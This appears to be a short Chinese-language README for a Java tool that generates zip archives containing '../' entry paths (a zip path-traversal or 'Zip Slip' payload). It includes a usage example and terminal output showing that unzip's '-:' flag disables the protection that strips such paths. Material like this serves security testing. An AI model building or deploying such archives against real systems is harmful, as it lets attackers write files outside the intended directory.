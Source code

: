 # zip_path_traversal
java生成包含../目录的压缩包

## 使用
`java -jar generateZip.jar parm1 parm2 parm3`

第一个参数是需要压缩的源路径；第二个参数是压缩文件的目的路径，这边需要将压缩的文件名字加上去;第三个参数为zip压缩包中的目录命名

## Example
`java -jar generateZip.jar "D:\\dir1\\dir2\\dir3\\test.txt"  "D:\\dir1\\dir2\\dir3\\test.zip" "../../"`

在D:\\dir1\\dir2\\dir3\\生成目录结构为../../test.txt的test.zip压缩包，该压缩包解压会跳到D:\\dir1\\test.txt

## 注
linux下使用unzip解压该zip包路径会被限制：

(```) 
root@6d943786cd4c:~# unzip 11.zip 
Archive:  11.zip
warning:  skipped "../" path component(s) in ../../../tmp/1.txt
  inflating: tmp/1.txt 
(```)

使用`unzip -: 11.zip`解压被不会被限制

(```)
root@6d943786cd4c:~# unzip -: 11.zip 
Archive:  11.zip
  inflating: ../../../tmp/1.txt
(```)

